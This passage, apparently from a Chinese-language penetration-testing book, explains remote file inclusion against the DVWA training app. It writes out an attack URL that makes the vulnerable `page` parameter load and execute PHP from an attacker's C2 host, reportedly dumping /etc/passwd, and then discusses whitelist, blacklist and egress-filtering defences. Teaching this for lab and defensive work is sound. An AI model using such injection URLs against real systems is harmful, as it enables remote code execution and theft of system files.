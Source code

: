 由于 `page` 参数没有进行适当的输入清理，攻击者可以指定任何他们希望服务器加载和显示的文件，包括托管在其他地方的远程文件。然后，攻击者可以指示易受攻击的应用程序 `dvwa.app.internal` 包含该远程文件，该文件将作为 PHP 代码进行处理，实质上导致代码执行。

我们可以将攻击者控制的完整 URL `http://c2.spider.ml/test.txt` 指定为要包含的页面，如下所示：

```
http://dvwa.app.internal/vulnerabilities/fi/?page=http://c2.spider.ml/test.txt
```

![RFI](img/B09238_05_01.jpg)

图 5.1：应用程序包含远程托管的 PHP 代码，执行它，并返回 /etc/passwd 的内容

如前所述，RFI 漏洞在现代应用程序中较少见，但由于 IoT 设备使用过时的库和包，它们正在卷土重来。

允许 `include()` 从网络获取代码有其合理的原因。某些应用程序可能围绕这一特性进行架构设计，迁移出去可能成本过高。从企业角度来看，可能更便宜的是保持现有架构不变，仅通过打补丁添加控制措施，并希望通过白名单或黑名单的方法来清理输入。

基于白名单的控制是理想选择，但在动态的生产环境中维护起来也较为困难。如果域名和 IP 经常变动（比如 CDN 和云基础设施），更新白名单以匹配可能会消耗大量资源。应用程序的关键性可能要求零停机时间；因此，解决方案应该是自动化的。然而，没有引入安全漏洞的情况下实现这一点可能是非常困难的。

也可以选择黑名单方法，尽管无法知道所有当前和未来的攻击输入。通常不推荐使用黑名单，因为攻击者可以利用足够的时间反向工程黑名单并绕过它。然而，某些情况下由于缺乏资源或时间，仍然会实现黑名单。如果审计结果要求对特定应用组件实施安全控制，但没有具体说明如何执行，可能通过实施黑名单可以更快地获得合规检查标记。

限制 RFI 的控制措施可以在网络层面实现。应用程序的出口流量会被严格审查，仅允许连接到已知服务器，从而防止攻击者从 C2 服务器包含代码。理论上，这是一个有效的控制方法。它是一个白名单方法，并且不需要重新设计应用程序的工作流程。开发人员可以向网络安全工程师提供一个应当可以访问的域名列表，其他所有连接应当被拒绝。

# LFI
